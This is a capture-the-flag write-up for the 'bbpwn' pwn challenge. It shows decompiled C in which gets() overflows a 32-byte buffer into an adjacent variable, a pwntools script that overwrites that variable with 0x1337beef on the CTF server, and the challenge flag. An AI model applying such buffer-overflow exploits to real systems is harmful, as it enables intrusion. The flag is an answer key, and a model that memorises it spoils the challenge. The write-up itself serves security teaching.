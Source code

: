 # bbpwn

- Category: pwn
- Rating: 50 pts

This is, as the name suggests, a very easy pwn challenge. Toss it into ghidra and you will see the main function.

```c
undefined4 main(void)

{
  undefined4 uVar1;
  int in_GS_OFFSET;
  char local_38 [32];
  int local_18;
  int local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  local_18 = 0;
  printf("Enter a string: ");
  fflush(stdout);
  gets(local_38);
  if (local_18 == 0x1337beef) {
    read_flag();
  }
  else {
    printf("\nThe string \"%s\" is lame.\n",local_38);
    fflush(stdout);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}
```

`gets`, as per its job, is going to helpfully copy our input into the 32 char long `local_38` buffer without bounds checking which lets us overflow into and control the value of `local_18` which is right next to it on the stack. So...


# Solution

```python
#!/usr/bin/env python

from pwn import *

context.terminal = ['kitty', '-e', 'sh', '-c']

r = remote('challenges.tamuctf.com', 4252)
# r = process('./bbpwn'); gdb.attach(r); pause()

r.sendlineafter('Enter a string: ', b'A'*32 + p32(0x1337beef))
print(r.recv)

r.interactive()
```
![execution](execution.png)

# Flag

`gigem{0per4tion_skuld_74757474757275}`
